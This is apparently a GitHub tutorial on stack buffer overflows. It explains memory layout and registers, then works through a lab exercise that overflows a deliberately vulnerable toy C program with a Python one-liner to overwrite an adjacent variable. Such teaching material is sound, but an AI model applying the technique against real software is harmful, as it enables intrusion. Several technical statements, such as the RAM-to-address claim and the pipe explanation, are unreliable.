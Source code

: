 # Buffer Overflow

Hello everyone! This Buffer Overflow documentation provides the complete demonstration, understanding and the scripts necessary for buffer overflow exploitation.

## Introduction

**What is buffer?**

1. A buffer is an area in the computer RAM reserved for temporary data storage. Data such as: User input, Parts of a video file, Server banners received by a client application
2. **Buffers are stored in a stack (LIFO)**

A **buffer overflow** occurs when **more data is put into a fixed-length buffer** than the buffer can handle.

**Buffer Overflow Attack**: Overwriting the return address value of the stack which is intended to return CPU to the next instruction in main following the function call.

## Tools Needed

1. GCC Debugger
2. Kali Linux or any other Linux Distro.
3. Git

## Memory Stack

The stack grows from high address(0xffffffff) to low address(0x00000000).

Say you have 32 gb of RAM, so 2^32 addresses will be available.

![image](https://user-images.githubusercontent.com/91763346/194780684-9d93ce1e-7ab8-414d-9f48-fec77c0466a7.png)

**Kernel** → When **system** boots, then memory will filled by device drivers.

**Stack** holds the **local** **variables for each of your functions**. When you call a new function for example printf and then some parameters - that gets put on the end of the stack.

**Heap** → Big area of memory that you can allocate huge chunks, dynamic memory allocation. *Heap grows in the up direction & stack grows in the downward direction.* 

**Data** → initialised/**uninitialised(BSS segment)** variables get held here.

**Text** → Actual **code** of our programme (exe file), read-only. 

- Global variables are stored in data segment.
- Local variables & ptr are stored in stack. ptr will be in stack but its data will be stored in heap.
- Static & uninitialised variables are stored in BSS segment.

 

**Registers**

1. **stack pointer (ESP)**: register containing the address of the **top** of the stack.
2. **base pointer (EBP)**: register containing the address of the **bottom** of the stack frame.
3. **instruction pointer (EIP):** register containing the **address of the instruction** to be executed.

## Anatomy of Stack

When we look into the memory stack, we will find 4 main components:

1. Extended Stack Pointer (ESP)
2. Buffer Space
3. Extended Base Pointer (EBP)
4. Extended Instruction Pointer (EIP) / Return Address

![image](https://user-images.githubusercontent.com/91763346/194780701-1df5feee-3fa0-48eb-8c10-f44294f7be47.png)

Buffer space is used as a storage area for memory in some coding languages. With proper input sanitation, information placed into the buffer space should never travel outside of the buffer space itself.

![image](https://user-images.githubusercontent.com/91763346/194780710-bc6da833-6c37-4d0f-bb6d-09e0a4363af5.png)

In the above example, you can see that a a number of A’s (x41) were sent to the buffer space, but were correctly sanitized. The A’s did not escape the buffer space and thus, no buffer overflow occurred.

![image](https://user-images.githubusercontent.com/91763346/194780718-26a8fd84-df2a-41a3-b868-e4da542043e0.png)

Now, the A’s have completely escaped the buffer space and have actually reached the EIP. This is an example of a buffer overflow and how poor coding can become dangerous. If an attacker can gain control of the EIP, he or she can use the pointer to point to malicious code and gain a reverse shell.

## Example 1

Basic demonstration of a stack buffer overflow. This example is compiled to a 32-bit program, and has stack protection disabled.

```
gcc -o stack stack.c -m32 -fno-stack-protector
```
Let's import the git repo using the command **git clone** :

```
git clone https://github.com/videxrealone/Buffer-Overflow/
```
## Goal

Using the file **stack**, you need to get through the condition **exploit == 0x9876** and have the message "**It worked!**" printed. No file modification is allowed.

## Solution

This exploit is about the function fgets. Our array is 10 bytes long and the function fgets is looking for up to 13 bytes. Thus, by giving more than 10 bytes to the standard input, we are going to overrun the buffer's boundary and overwrite an adjacent memory location. 
Let me guide you through a simple solution in which we'll be using python alongside **gdb**

Let's start by inspecting the source file **stack.c** :
```
cat stack.c
```
How to trigger the "***It worked!***" output ?

Let's debug the file using GCC :
```
gdb stack
```
Let's try running the program using the command run :

```
run
```
Now lets use a simple input that DOES NOT exceed 13 bytes :

```
AAAAAAAAAA
```
We can see that the program worked just fine, let's try re-running it while using an out of bound input. (any input that exceeds 13 bytes) :

```
run

AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```
We can see that we got a segmentation fault and that the program crashed, thats because we have overflooded the stack and corrupted the return addresses and return addresses :

Let's quit gdb using **quit** :

```
quit
```
In linux we can execute simple python commands directly in the terminal using **-c**, can you run a simple **"print 'Hello world!' "** ?

```
python -c "------------"
```
Now that we know how to execute commands in python, I should tell you about a facinating secret in linux, you can actually run more than one command in a terminal! 
let's try it!
Let's run a simple echo with two different messages using the **" | "** (ALT GR + 6)  . 
```
echo I'm a message | echo I'm another message
```
Did you spot something unusual?
It's the execution order of the commands.

Let's go back to our program.
Let's try to force the condition **"exploit == 0x9876"**, what we're going to do is to simply concatinate the address with random letters.
There's something else you should know, **STACK WORKS IN REVERSE!** (you can google Little Endian & Big Endian)

![image](https://user-images.githubusercontent.com/91763346/194781982-6f6d27e8-62d9-462e-843c-0e2266ace887.png)

So now, knowing that it works as a little endian, we can easily inject it, to force the **"exploit == 0x9876"** but before that we got to run the executable using **./stack**

Using python :

```
python -c "print 'A'*10+'\x76\x98'" | ./stack
```

Remember that stack works in reverse! & that python is a very powerful tool that we need to learn.
